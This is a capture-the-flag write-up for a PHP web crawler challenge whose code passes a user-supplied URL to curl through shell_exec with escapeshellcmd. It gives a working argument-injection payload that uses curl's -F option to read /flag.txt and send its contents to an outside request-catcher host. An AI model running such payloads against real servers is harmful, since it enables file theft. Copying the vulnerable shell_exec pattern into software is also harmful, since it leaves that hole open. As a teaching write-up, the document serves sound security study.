



# solution

<br>
You will see a page like above, when you click crawl button, you will be redirected to vnexpress.net. Let check at **/?debug** (hints from title challenge)
<br>
For summary, let focus on this code

```
if(isset($_POST['url'])){
  $url = $_POST['url'];
  if(strpos($url, 'http') !== 0 ){
      die('Only HTTP or HTTPS !');
  }else{
      $result = shell_exec('curl '. escapeshellcmd($url));
      $cache_file = './cache/'.md5($url);
      file_put_contents($cache_file, $result);
      $data = parse_html($cache_file);
  }
}
```

We cant use CMDI cause escapeshellcmd() block and filter chars such as **&#;`|\*?~<>^()[]{}$\ , \x0A và \xFF.**. This challenge is quite tricky and i need to get some hints to solve it. This website will crawl the web using the curl command, then save the crawled content to a file located in the “./cache” directory.

We certainly cannot bypass this challenge with the approach of using the characters ';' or '&', we have to go in a different direction.
Instead of injecting a command for the server to execute after executing the curl command, we can directly use the curl command to send the file content to a server that we build ourselves. I think maybe is a SSRF advanced by use curl. After some research, I discovered that curl provides the -F option to allow sending files. Here i use tool at dreamhack tool.

But we cant use payload like this **-F file=@/flag.txt https://aesagwj.request.dreamhack.games** cause

```
if(strpos($url, 'http') !== 0 ){
      die('Only HTTP or HTTPS !');
  }
```

It seems a bit tricky, but just fix the payload as follows: http://103.97.125.56:31217/ -F file=@/flag.txt https://aesagwj.request.dreamhack.games . => Now the server will run the command: curl http://103.97.125.56:31217/ -F file=@/flag.txt https://aesagwj.request.dreamhack.games, crawl from the website http://103.97.125.56:31217/, then send the file to the dreamhack server. In the curl command, when you see @/flag.txt, it is a way to specify that curl will read the contents from the /flag.txt file and use this content for part of the data to send, instead of just sending the file name or path.

Put this payload and wait a bit(maybe you need to run this payload 2 3 times).
<br>
